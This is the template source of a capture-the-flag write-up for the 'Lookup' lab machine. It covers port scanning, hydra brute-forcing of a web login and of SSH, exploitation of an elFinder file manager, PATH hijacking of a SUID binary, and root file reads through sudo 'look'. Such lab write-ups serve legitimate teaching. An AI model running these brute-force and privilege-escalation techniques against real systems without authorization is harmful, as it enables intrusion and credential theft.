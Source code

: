 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start off by scanning all the ports.")}}

{{console("nmap -T5 -p- 10.10.231.140", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-24 16:14 CET
Warning: 10.10.231.140 giving up on port because retransmission cap hit (2).
Nmap scan report for lookup.thm (10.10.231.140)
Host is up (0.082s latency).
Not shown: 62276 closed tcp ports (conn-refused), 3257 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 552.74 seconds")}}

{{text("We discover 2 open ports: ")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("Going to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://10.10.231.140</code> redirects us to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://lookup.thm</code>, so we add that entry to our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/hosts</code> file.")}}

{{text("We can now access the website, which displays a login form.")}}

{{image("../../static/writeups/lookup/images/000001.jpg")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("I tried to scan for different directories and subdomains but didn't find anything. The source code also has nothing interesting.")}}

{{text("I proceeded with analysing the login form. I noticed something vulnerable. When I set username to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>admin</code> instead of getting back <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Wrong username or password.</code> I got <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Wrong password.</code>")}}

{{image("../../static/writeups/lookup/images/000002.jpg")}}

{{text("This means the the correct username is <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>admin</code>")}}

{{text("Knowing the username, I began brute-forcing the login form.")}}

{{console("hydra -l admin -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form '/login.php:username=^USER^&password=^PASS^:Wrong password. Please try again.' -t 64", "...
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:Wrong password. Please try again.
[80][http-post-form] host: lookup.thm   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found")}}

{{text("We find the password, which is <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>password123</code>. Now we can log in.")}}

{{text("When I tried to log in with those credentials, I once again got back <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Wrong username or password.</code> which is weird.")}}

{{image("../../static/writeups/lookup/images/000003.jpg")}}

{{text("So it would seem that the username is incorrect after all? I once again ran <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>hydra</code>, now bruteforcing the username.")}}

{{console("hydra -L /usr/share/wordlists/rockyou.txt -p password123 lookup.thm http-post-form '/login.php:username=^USER^&password=^PASS^:Wrong username or password. Please try again.' -t 64", "...
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:Wrong username or password. Please try again.
[STATUS] 5946.00 tries/min, 5946 tries in 00:01h, 14338453 to do in 40:12h, 64 active
[80][http-post-form] host: lookup.thm   login: jose   password: password123")}}

{{text("We find the correct credentials, which are <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>jose:password123</code>.")}}

{{header("Shell as think", "shell-as-think")}}

{{text("We get redirected to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://files.lookup.thm</code> so we have to add this entry to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/hosts</code> file.")}}

{{text("We see an <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Elfinder</code> page which is a open-source file manager for web.")}}

{{image("../../static/writeups/lookup/images/000004.jpg")}}

{{text("I tried using credentials from the files, but none seemed to work.")}}

{{text("I found currently used version.")}}

{{image("../../static/writeups/lookup/images/000005.jpg")}}

{{text("I tried searching for any exploits for our version of <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Elfinder</code> and found this.")}}

{{image("../../static/writeups/lookup/images/000006.jpg")}}

{{text("After choosing the exploit, I set correct options and ran it.")}}

{{image("../../static/writeups/lookup/images/000007.jpg")}}

{{text("We already guessed that there is a user called <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>think</code> from when we looked at the files on the site. In his home directory we find a file called <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.passwords</code> but we don't have permissions to read it.")}}

{{text("We should search for binaries with <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SUID</code> bit.")}}

{{console("find / -perm /4000 2>/dev/null", "...
/usr/sbin/pwm
...")}}

{{text("This binary seemed interesting, because I have not seen it before.")}}

{{image("../../static/writeups/lookup/images/000008.jpg")}}

{{text("It executed the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id</code> command in order to read that user's <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.passwords</code> file from their directory.")}}

{{text("We can guess that there is no absolute path specified and we can run our own <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id</code> file.")}}

{{text("I create my own <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id</code> file in the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>tmp</code> directory that will echo user think <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id</code> command in order to trick the program to read that user's <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.passwords</code> file.")}}

{{image("../../static/writeups/lookup/images/000009.jpg")}}

{{text("Command works, and the program reads a file containing a list of potential passwords.")}}

{{text("I copied this file, saved it into a file and began brute-forcing the password.")}}

{{console("hydra -l think -P passwords.txt ssh://10.10.193.239", "...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://10.10.193.239:22/
[22][ssh] host: 10.10.193.239   login: think   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found")}}

{{text("We succesfully brute-force the password, and now are able to log in via SSH.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Since we know the current user password, first thing I did is check our sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look")}}

{{text("It seems we can run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/usr/bin/look</code> as root. Let's try and find a way to privilage escalate using this.")}}

{{link("https://gtfobins.github.io/gtfobins/look/", "https://gtfobins.github.io/assets/logo.png", "look | GTFOBins")}}

{{text("According to this if we run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/usr/bin/look '' 'FILE'</code> it should read that file.")}}

{{image("../../static/writeups/lookup/images/000010.jpg")}}

{{text("It was successful and we got the flag.")}}

{{script()}}